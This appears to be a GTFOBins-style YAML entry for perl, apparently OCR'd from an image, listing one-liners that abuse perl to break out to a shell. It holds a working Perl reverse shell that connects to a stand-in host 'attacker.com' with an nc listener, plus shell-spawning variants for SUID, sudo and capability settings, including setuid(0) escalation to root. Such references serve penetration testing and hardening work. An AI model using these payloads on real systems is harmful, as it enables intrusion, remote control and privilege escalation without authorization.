 ```yaml
---
functions:
  execute-interactive:
    - code: perl -e 'exec "/bin/sh";'
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        perl -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  suid-enabled:
    - code: ./perl -e 'exec "/bin/sh";'
  sudo-enabled:
    - code: sudo perl -e 'exec "/bin/sh";'
  capabilities-enabled:
    - code: ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
---
```


